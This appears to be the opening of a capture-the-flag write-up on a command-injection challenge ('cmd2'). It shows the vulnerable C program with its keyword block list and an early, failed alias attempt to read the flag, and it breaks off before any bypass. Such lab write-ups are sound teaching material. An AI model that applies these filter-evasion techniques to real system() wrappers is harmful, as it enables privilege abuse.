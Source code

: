 First I needed to get the cmd1 flag again so I did that quickly and got started
```bash
cmd1@ubuntu:~$ ./cmd1 "/bin/cat f*"
[flag🤫]
```

I opened the c file `cmd2.c`
```c
#include <stdio.h>
#include <string.h>

int filter(char* cmd){
        int r=0;
        r += strstr(cmd, "=")!=0;
        r += strstr(cmd, "PATH")!=0;
        r += strstr(cmd, "export")!=0;
        r += strstr(cmd, "/")!=0;
        r += strstr(cmd, "`")!=0;
        r += strstr(cmd, "flag")!=0;
        return r;
}

extern char** environ;
void delete_env(){
        char** p;
        for(p=environ; *p; p++) memset(*p, 0, strlen(*p));
}

int main(int argc, char* argv[], char** envp){
        delete_env();
        putenv("PATH=/no_command_execution_until_you_become_a_hacker");
        if(filter(argv[1])) return 0;
        printf("%s\n", argv[1]);
        setregid(getegid(), getegid());
        system( argv[1] );
        return 0;
}
```

reading the c code in the server I saw that I needed to access the flag after the PATH variable was discarded...
```c
putenv("PATH=/no_command_execution_until_you_become_a_hacker");
```

I also could not use any of these in my commands: =, PATH, export, /, \`, flag
so my problem was to get to the commands.
My first thought was to create an alias for the command that I wanted.
```bash
cmd2@ubuntu:~$ alias docs='/bin/cat flag'
cmd2@ubuntu:~$ ./cmd2 docs
docs
sh: 1: docs: not found
```
But the alias had a scope of the current terminal session and was not recognized by the system.
I tried creating a global alias but I did not have permission...
